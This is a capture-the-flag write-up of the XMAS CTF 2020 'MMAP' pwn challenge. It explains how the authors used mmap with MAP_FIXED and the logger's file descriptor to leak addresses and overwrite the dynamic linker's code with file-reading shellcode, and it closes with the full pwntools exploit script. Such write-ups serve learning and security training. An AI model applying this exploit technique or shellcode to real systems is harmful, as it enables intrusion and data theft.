



---
title: '[XMAS CTF 2020] Ministerul Mediului, Apelor și Pădurilor'
published: true
tags: [writeup, pwn, mmap]
author: neo & En3rRe
---

Challenge description:

```
I thought that mmap-ing memory is safer than using malloc, so safe that I don't even need to enforce security checks. Well, I got it very very wrong.

Confused about the title? Google is too: https://imgur.com/a/QsSt41g

Update: If you exploit was working locally, but not on the remote, now it should work. I fixed the reading.
Update: The flag is in /home/ctf/flag.txt (and for all other challenges)

Running on Ubuntu 20.04

Target: nc challs.xmas.htsp.ro 2003
Author: littlewho
```
## Solution
Judging from the challenge title and description, this challenge has something to do with the [mmap](https://man7.org/linux/man-pages/man2/mmap.2.html) syscall.
We tried to decompile the challenge in Ghidra, but for some reason Ghidra could not decompile the whole source code, so we needed to do some dynamic analysis to see what the program does.
First, we ran the program using `strace` to try to see what system calls are called.

```
...
munmap(0x7f6485177000, 208604)          = 0
getpid()                                = 295705
openat(AT_FDCWD, "/tmp/log.error.4dStN0", O_RDWR|O_CREAT|O_EXCL, 0600) = 3
unlink("/tmp/log.error.4dStN0")         = 0
fcntl(3, F_GETFL)                       = 0x8002 (flags O_RDWR|O_LARGEFILE)
brk(NULL)                               = 0x563d36e6d000
brk(0x563d36e8e000)                     = 0x563d36e8e000
fstat(3, {st_mode=S_IFREG|0600, st_size=0, ...}) = 0
rt_sigaction(SIGALRM, {sa_handler=0x563d36c3e610, sa_mask=[ALRM], sa_flags=SA_RESTORER|SA_RESTART, sa_restorer=0x7f6484f76210}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
alarm(60)                               = 0
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0xc00, 0x7ffcf44ef5e0) = -1 EINVAL (Invalid argument)
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)  = 0
seccomp(SECCOMP_SET_MODE_STRICT, 1, NULL) = -1 EINVAL (Invalid argument)
seccomp(SECCOMP_SET_MODE_FILTER, 0, {len=17, filter=0x563d36e71990}) = 0
write(1, "Ministerul Mediului Apelor si Pa"..., 48Ministerul Mediului Apelor si Padurilor aka MMAP) = 48
write(1, "\n", 1
)                       = 1
write(3, "Logger initialized.\n", 20)   = 20
```

The first interesting thing we notice are the lines 
```openat(AT_FDCWD, "/tmp/log.error.4dStN0", O_RDWR|O_CREAT|O_EXCL, 0600) = 3
unlink("/tmp/log.error.4dStN0")         = 0
```
A temporary file is created and is immidiately unlinked (deleted).
Also, it looks like seccomp is used, so probably some system calls are disallowed. We can check out the seccomps rules using [this tool](https://github.com/david942j/seccomp-tools).
```
$ seccomp-tools dump ./chall
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0e 0xc000003e  if (A != ARCH_X86_64) goto 0016
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0b 0xffffffff  if (A != 0xffffffff) goto 0016
 0005: 0x15 0x09 0x00 0x00000000  if (A == read) goto 0015
 0006: 0x15 0x08 0x00 0x00000001  if (A == write) goto 0015
 0007: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0015
 0008: 0x15 0x06 0x00 0x00000003  if (A == close) goto 0015
 0009: 0x15 0x05 0x00 0x00000009  if (A == mmap) goto 0015
 0010: 0x15 0x04 0x00 0x0000000b  if (A == munmap) goto 0015
 0011: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0015
 0012: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0015
 0013: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0015
 0014: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```
The `execve` syscall is not allowed, so we will need to read the flag using the rest of the available syscalls (probably `open` the flag file, `read` its contents into memory and `write` to dump its contents).

Next, we run the program in gdb to understand what it does and we discovered the following:
- We can give 4 different options to the program:
  - *Choice 1:* Give arguments for the `mmap` function. Mmap will be called using the given arguments.
  - *Choice 2:* Give a size for the `write` function. Write will be called and print *size* data from the mmaped buffer.
  - *Choice 3:* Give a size and data for the `read` function. Read will be called and put our data into the mmaped buffer.
  - *Choice 4:* Exit the program.
- The buffer which was allocated for the file which was created at the beginning of the program is used as a logger. After each mmap, the allocated address is printed in this logger. The logger is referenced by its file descriptor.

Our first thought was to allocate a rwx page using mmap, write some shellcode in it which opens the flag and reads its data, and find a way to change the execution flow of the program to execute our shellcode.
After going through the program line by line, we could not find any vulnerabilities which would allow us to change the execution flow, so we needed to find another way. We decided to go through the mmap man page to see if we could find anything that could help.
One mmap flag was particularly interesting:
```
      MAP_FIXED
              Don't interpret addr as a hint: place the mapping at exactly
              that address.  addr must be suitably aligned: for most
              architectures a multiple of the page size is sufficient;
              however, some architectures may impose additional
              restrictions.  If the memory region specified by addr and len
              overlaps pages of any existing mapping(s), then the overlapped
              part of the existing mapping(s) will be discarded.  If the
              specified address cannot be used, mmap() will fail.

              Software that aspires to be portable should use the MAP_FIXED
              flag with care, keeping in mind that the exact layout of a
              process's memory mappings is allowed to change significantly
              between kernel versions, C library versions, and operating
              system releases.  Carefully read the discussion of this flag
              in NOTES!
```
Using this flag, we can mmap a memory section over an already existing allocation. We could take advantage of this to overwrite a code section in the program and replace it with our shellcode, so that we don't have to change the execution flow. 
Since PIE was enabled, we now needed to find a way to leak where the binary was loaded in memory and calculate the address of the binary's .text segment.

We tried allocating different mmap sizes and found out that if an mmap request for a memory chunk is large enough so that it doesn't fit between the program's sections, mmap will allocate a space right before the base address of the binary. The size that worked for us was 0x2fffffffffff bytes. Each mmap allocation is written in the logger, so if we could read the logger's contents, we could see where the mmaped section was allocated and calculate the base address of the binary (and then the adddress of the .text segment). Since we need to read the logger's contents, we must give the logger's file descriptor (3) as an argument to mmap. This way, the logger's contents will be copied into the allocated buffer.



Right after the allocation, we can see the contents of the logger using the write function:
```
b'Logger initialized.\nMMAPed: 0x259ec6cd3000\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
Now, we can calculate the address of the .text segment in memory by adding the size of the allocation to the leaked mmaped address, plus 0x1000 more bytes (the first 0x1000 bytes are read-only data).

After that, we used the MAP_FIXED flag and allocated a memory chunk right over the .text segment with an rwx page and then used the read function to overwrite it with some shellcode which opens the flag, reads its contents into a buffer and finally prints the flag using write().

We run the exploit using a dummy flag on our local machine and got the flag. However, when we ran it on the remote host, we got no reply and the exploit got stuck after the first mmap allocation (the one where we request a very large memory chunk). This was probably happening because the remote host had limited memory and mmap could not satisfy our request, so we needed another way to leak the program's .text segment.

After unsuccessfully trying to find another method for a few hours, we came up with another idea. The binary itself is not the only ELF file that is loaded into memory when the program is run, but all shared libraries are also loaded. In our case, the libc, ld and seccomp libraries were loaded. Each of these shared objects is an ELF file and has a .text segment of its own and parts of each are called during different stages of the program's execution. 

We realized that when we only ask for a small chunk of memory from mmap, we are always given a chunk right before the ld library:



So, even though we couldn't figure out another way to leak the binary's text segment, we can do the same thing using the ld library! Following the same method as before, we read the allocated chunk from the logger, calculated ld's code segment and overwrote it with many nops and then our shellcode. In particular, we stepped through the program's execution flow using gdb to see exactly which code address from the linker is called when the program exits and started overwriting from there.

We run the exploit again on the remote host and this time we got the flag:



Here is the full exploit script:
```
from pwn import *
import time

exe = context.binary = ELF('./chall')
context.terminal = ['tmux', 'new-window']

host = args.HOST or 'challs.xmas.htsp.ro'
port = int(args.PORT or 2003)

def local(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    r = connect(host, port)
    return r

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(argv, *a, **kw)
    else:
        if args.PWNDBG:
            gs = '''
            init-pwndbg
            brva 0x148f
            brva 0x1340
            brva 0x1a28
            brva 0x14a8
            brva 0x13d9
            c
            '''
            return gdb.debug(exe.path, gs)
        elif args.GEF:
            gs = '''
            init-gef
            '''
            return gdb.debug(exe.path, gs)
        else:
            return local(argv, *a, **kw)

def log_addr(name, addr):
    log.info('{}: {:#x}'.format(name, addr))

def mmap(addr, length, prot, flags, fd, offset):
    r.sendlineafter('choice = ', '1')
    r.sendlineafter('addr = ', str(addr))
    r.sendlineafter('len  = ', str(length))
    r.sendlineafter('prot = ', str(prot))
    r.sendlineafter('flags = ', str(flags))
    r.sendlineafter('fd = ', str(fd))
    r.sendlineafter('offset = ', str(offset))

def write(sz):
    r.sendlineafter('choice = ', '2')
    r.sendlineafter('sz = ', str(sz))
    r.recvuntil('data = ')
    line = r.recvline().strip()
    return line

def read(sz, data):
    r.sendlineafter('choice = ', '3')
    r.sendlineafter('sz = ', str(sz))
    r.sendlineafter('data = ', data)

PROT_READ = 0x01 # Page can be read.
PROT_WRITE = 0x2 # Page can be written.
PROT_EXEC = 0x4 # Page can be executed.
MAP_SHARED = 0x01 # Share changes.
MAP_PRIVATE = 0x02 # Changes are private.
MAP_FIXED = 0x10
MAP_ANONYMOUS = 0x20 

# SHELLCODE:
# Open the flag file. The name of the path is written in a buffer at address 0x500000
# mov    r8,rdi
# mov    rax,0x2
# mov    rdi,0x500000
# xor    esi,esi
# syscall
#
# Call read() to put the contents of the flag into the buffer
# mov    rbx,rax
# mov    rdi,rbx
# mov    rsi,0x500000
# mov    rdx,0x100
# mov    rax,0x0
# syscall
#
# Call write() to dump the flag contents to stdout
# mov    rdi,0x1
# mov    rsi,0x500000
# mov    rdx,0x50
# mov    rax,0x1
# syscall

# Write some nops where ld's code is called, and then write the shellcode
shellcode = asm(shellcraft.nop() * (100 + 0xd50)) + b"\x49\x89\xF8\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x00\x00\x50\x00\x31\xF6\x0F\x05\x48\x89\xC3\x48\x89\xDF\x48\xC7\xC6\x00\x00\x50\x00\x48\xC7\xC2\x00\x02\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC6\x00\x00\x50\x00\x48\xC7\xC2\x00\x02\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x0F\x05"

mmap_len = 0x2000
path_buf_addr = 0x500000 # Will use this to write the flag's path
path = b'/home/ctf/flag.txt\x00'
fd = 3 # Logger's file descriptor
r = start()

# First, allocate a buffer and write the flag's path. This will be used by the shellcode to open the file
mmap(hex(path_buf_addr), hex(0x100), (PROT_READ | PROT_WRITE | PROT_EXEC), (MAP_PRIVATE | MAP_ANONYMOUS), -1, 0)
read(len(path), path)

# Allocate a small memory chunk (0x2000 bytes). Mmap will allocate the address right before ld
mmap(hex(0x0), hex(mmap_len), (PROT_READ | PROT_WRITE | PROT_EXEC), (MAP_SHARED), fd, 0)
# Read the logger's contents to leak the mmaped address
data = write(1000)
r.recvuntil('MMAPed: ')
r.recvuntil('MMAPed: ')
line = r.recvline().strip()
mmap_offset = int(line, 16)
log_addr("Mmap end", mmap_offset)
code_start = mmap_offset + mmap_len + 0x1000 + 0x10000 # calculate where ld's code segment is
log_addr("Code start", code_start)
# Write the shellocde over the logger's contents
read(len(shellcode), shellcode)

# Allocate a memory chunk using the MAP_FIXED flag over ld's code segment. Since we used 
# the logger's fd, its contents (which are now the shellcode) will be copied into the new allocated chunk
mmap(hex(code_start), hex(0x1000), (PROT_READ | PROT_WRITE | PROT_EXEC), (MAP_SHARED | MAP_FIXED), fd, 0)
r.sendlineafter('choice = ', '4') # call exit to trigger the shellcode
r.interactive()
```
